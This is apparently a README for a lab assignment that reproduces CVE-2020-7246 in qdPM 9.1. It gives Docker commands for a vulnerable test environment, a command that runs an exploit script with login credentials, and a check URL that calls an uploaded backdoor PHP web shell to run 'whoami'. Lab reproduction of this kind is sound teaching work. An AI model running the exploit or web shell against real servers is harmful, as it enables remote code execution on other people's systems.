 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/SecAssignment.git
$ cd SecAssignment
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
$ service apache2 start | service mysql start
```

## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
